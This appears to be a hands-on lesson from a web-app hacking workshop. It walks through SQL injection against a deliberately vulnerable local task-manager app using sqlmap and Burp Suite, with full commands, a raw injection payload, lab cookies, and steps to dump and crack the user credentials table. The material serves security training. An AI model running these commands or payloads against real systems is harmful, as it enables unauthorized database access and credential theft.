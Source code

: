 # SQL Injection (15 Minutes)
### Description
Ability to influence the structure of a SQL database query through unsafe includes of user input.

* ` stmt = "SELECT * FROM users WHERE username=" + INPUT[user]`

### Tool
#### sqlmap
http://sqlmap.org - Command Line tool for dealing with SQL injection flaws

Required flags
- `-u URL` Target URL

Commonly-used configuration flags
- `--data=DATA` String to be sent through POST
- `--cookie=COOKIE` Cookie data for authenticated sessions
- `--proxy=PROXY` Route sqlmap requests through a proxy so you can see what it's doing
- `-p TESTPARAMETER` Parameter you want to check
- `-r REQUESTFILE` Load HTTP request from the following file

Quick check data access flags
- `-b, --banner` Retrieve DBMS banner
- `--current-user`
- `--current-db`

Dump the data flags
- `--dump-all` careful, this can be slow
- `--dump` dump the targeted table data
- `-D DB` target database
- `-T TBL` target table
- `-C COL` target column


## Walkthroughs

| Application | Location | Parameter | Tool |
| ---- | ---- | ---- | ---- |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/forgot_password/ | email | sqlmap |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/7/project_details/ | URL parameter | sqlmap |

### Forgot Password SQL Injection
#### Step 1 - Validate SQL Injection Vulnerability
Validate access to the vulnerable task manager application, you should see the following login page.

![vtm login](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-login.png)

Access the Forgot Password Page

![vtm forgot password](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-forgot-password.png)

Validate that the email parameter throws a SQL error message by inserting `test@tm.com'` into the Email form field

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-email-sql-error.png)


#### Step 2 - Use sqlmap to confirm vulnerability
Since the forgot password page does not require authentication, use some of the above flags to confirm the vulnerability by using flags for posting data to the endpoint
```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" --banner
```

sqlmap will step through every parameter and ask if it should check for possible sql injection, you can bypass this check using `-p email`

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --banner
```

#### Step 3 - Explore commands sent using sqlmap with a proxy
Since you have confirmed that the endpoint is vulnerable to SQL Injection and exploitable with sqlmap, now use Burp Suite to view the requests being sent to the server by dumping the full schema of the backend mysql database.

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --proxy=http://127.0.0.1:8080 --schema
```

The full request to dump a portion of the schema looks as follows, use Burp Suite HTTP History to view similar requests.

```
POST /taskManager/forgot_password/ HTTP/1.1
Content-Length: 258
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: sqlmap/1.2.8.15#dev (http://sqlmap.org)
Host: 127.0.0.1:8000
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded; charset=utf-8

email=test%40tm.com%27%20AND%20EXTRACTVALUE%281890%2CCONCAT%280x5c%2C0x716a6a7071%2C%28SELECT%20MID%28%28IFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%29%2C1%2C21%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%202%2C1%29%2C0x71626a7071%29%29--%20UufD
```

### Project Details SQL Injection

#### Step 1 - Validate SQL Injection Vulnerability
Navigate back to the login page of vtm and login as `chris` with password `test123`

![vtm dashboard](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-chris-dashboard.png)

Browse to the *Marketing Campaign* project from the dashboard

![vtm project detail](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-project-details.png)

Check whether the URL project id, embedded between *taskManager* and *project_details* is vulnerable to sql injection by adding ` OR` (that's *space*OR) after the number 7.

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-project-sql-error.png)

#### Step 2 - Setup sqlmap to exploit the project details SQL Injection vulnerability

Since this page is only accessible to authenticated users, we will need to pull the cookie value associated with `chris` and add it to the sqlmap request.

Get all of the cookie headers using the browser's developer tools or viewing the request in Burp Suite. The request for the project details page will look similar to the following:

```
GET /taskManager/7/project_details/ HTTP/1.1
Host: 127.0.0.1:8000
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc
```

Since we currently don't know which of these values are required for user authorization, copy the entire string for use with sqlmap.

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7/project_details/" --cookie="csrftoken=CMk8epAzX7UDyXl2R0zBa2yfmZ8muICjJ7L2ZmUpKV962mlRNSthtANTaVkYubI0; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0olo:wR61ZH3DwyceV4rXFs5WCkw-lXQ" --current-db
```

Running this command with the proper cookie value does not result in a successful sqlmap session, but will output something similar to the following:

```
[14:16:00] [WARNING] URI parameter '#1*' does not seem to be injectable
[14:16:00] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')
[14:16:00] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 127 times
```

Since sqlmap does not recognize the project id parameter embedded in the URL, use the `*` character to denote where the injection should take place

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7*/project_details/" --cookie="csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc" --current-db
```

#### Step 3 - Exploit the project detail SQLi to harvest user credentials

Not that we know this injection point is valid, let's attempt to enumerate the *auth_user* table within the *vtmdb* database by appending `--dump -D vtmdb -T auth_user` to the sqlmap command.

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7*/project_details/" --cookie="csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc" --dump -D vtmdb -T auth_users
```

Allow sqlmap to run a brute-force attack against the identified md5 hashes and you should get information about most of the vtm accounts.

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-sqlmap-auth-user.png)

Congratulations! Test out `dade`'s password to verify that the credentials are active.

## Challenges


| Challenge | Difficulty |
| ---- | ---- |
| Altoro Mutual | http://demo.testfire.net |
| Bypass Login | :star: |
| All your transaction belong to us and so do your DBs,tables,columns,usernames,and passwords | :star::star::star: |
| Bacon Graphql | localhost:8085/graphql |
| Show all the bacons | :start::star::star: | 

